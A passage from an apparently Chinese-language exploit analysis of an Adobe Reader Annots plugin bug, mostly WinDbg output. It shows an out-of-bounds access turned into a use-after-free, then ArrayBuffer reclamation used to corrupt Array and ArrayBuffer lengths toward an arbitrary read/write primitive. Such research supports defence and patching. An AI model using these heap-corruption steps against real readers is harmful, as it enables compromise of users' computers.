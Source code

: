 ```
0:000> g
Breakpoint 1 hit
eax=0015c0d4 ebx=06e19220 ecx=06e19220 edx=06e19220 esi=00000000 edi=06e19220
eip=705e89d1 esp=0015c0c4 ebp=0015c0f4 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
Annots!PlugInMain+0xaba1:
705e89d1 55              push    ebp
0:000> dd ecx Lc
06e19220  0000001a ffffff81 20000048 ffffff81
06e19230  00000000 00000000 00000000 00000000
06e19240  00000000 00000000 2922eb66 88000000
0:000> g
eax=20000048 ebx=06e19220 ecx=06e19220 edx=0000001a esi=00000000 edi=0015c0d4
eip=7436f7e0 esp=0015bf8c ebp=0015bf94 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
ucrtbase!free:
7436f7e0 8bff            mov     edi,edi
0:000> dps esp L2
0015bf8c  705dd041 Annots+0x1d041
0015bf90  20000048		//free的内存地址
```

到这一步，漏洞已经从越界内存访问转变为了UAF，剩下的就是利用释放的内存构造读写原语了。

## 任意内存读写原语的构造

目前已经有一个被释放的0x1ffe大小的Array对象，因此用0xffe8大小的ArrayBuffer对象占位同一块内存。由于Array对象和ArrayBuffer对象表示长度属性的内存在同一位置，这样就导致了Array对象的长度被扩展为0xffe8，因此能够越界读写下一个临近Array对象的length值了：

```
0:000> dd 20000048 L10		//Array对象初始长度为0x1ffd
20000048  00000000 00001ffd 00001ffd 00001ffd
20000058  00000000 ffffff81 00000000 ffffff81
20000068  00000000 ffffff81 00000000 ffffff81
20000078  00000000 ffffff81 00000000 ffffff81
0:000> dd 20000048 L10		//内存占用后长度为0xffe8
20000048  00000000 0000ffe8 07631450 00000000
20000058  41414141 ffffff81 00000000 00000000
20000068  00000000 00000000 00000000 00000000
20000078  00000000 00000000 00000000 00000000
```

但是Array对象读写内存的能力不如ArrayBuffer，于是释放掉下一个临近的Array对象，并用ArrayBuffer对象占用内存，随后利用越界读写的Array对象修改ArrayBuffer对象的长度为0xffffff81：

```
0:018> dd 20000048+0x10000 L10
20010048  00000000 ffffff81 091910e0 00000000
20010058  41414141 ffffff81 00000000 00000000
20010068  00000000 00000000 00000000 00000000
20010078  00000000 00000000 00000000 00000000
```
